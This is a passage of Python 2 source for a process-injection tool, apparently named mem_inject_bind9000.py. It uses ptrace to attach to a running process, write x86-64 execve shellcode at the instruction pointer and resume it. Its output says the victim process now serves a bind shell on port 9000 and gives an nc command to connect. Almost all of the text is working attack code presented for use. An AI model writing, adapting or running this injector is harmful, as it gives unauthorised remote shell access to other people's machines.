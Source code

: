 ```python
    "\x53"                                              # push rbx
    "\x48\x8d\x3c\x24"                                  # lea rdi, [rsp]
    "\xb0\x3b"                                          # mov al, 0x3b -> execve
    "\x0f\x05"                                          # syscall
)

def inject_data(pid, src, dst_addr, length):
    """
    Write `length` bytes from `src` into the target process `pid` at address `dst_addr`.
    Using 4-byte chunks (like the original C code example).
    """
    for offset in range(0, length, 4):
        chunk = src[offset:offset+4]
        chunk = chunk.ljust(4, "\x00")  # ensure 4 bytes
        data = struct.unpack("<I", chunk)[0]
        if libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(dst_addr + offset), data) < 0:
            raise OSError("ptrace(POKETEXT) failed at offset {}".format(offset))

def main():
    if len(sys.argv) != 2:
        print("Usage: python2 mem_inject_bind9000.py <PID>")
        sys.exit(1)

    pid = int(sys.argv[1])
    print("[*] Target PID: {}".format(pid))

    # Attach
    if libc.ptrace(PTRACE_ATTACH, pid, None, None) < 0:
        raise OSError("ptrace(ATTACH) failed")
    os.waitpid(pid, 0)
    print("[*] Attached. Process is stopped now.")

    # Get registers
    regs = user_regs_struct()
    if libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(regs)) < 0:
        raise OSError("ptrace(GETREGS) failed")
    print("[*] Current RIP: 0x{:x}".format(regs.rip))

    # Inject shellcode at current RIP
    inject_data(pid, shellcode, regs.rip, len(shellcode))
    print("[*] Shellcode injected at RIP 0x{:x}".format(regs.rip))

    # Bump RIP a little (like the C code does: +2)
    regs.rip += 2
    print("[*] Adjusted RIP to 0x{:x}".format(regs.rip))

    # Set new registers
    if libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(regs)) < 0:
        raise OSError("ptrace(SETREGS) failed")

    # Detach and let the process run
    if libc.ptrace(PTRACE_DETACH, pid, None, None) < 0:
        raise OSError("ptrace(DETACH) failed")

    print("[*] Detached. The target process should now be running a bind shell on port 9000.")
    print("[*] Try: nc <victim-ip> 9000")

if __name__ == "__main__":
    main()
```
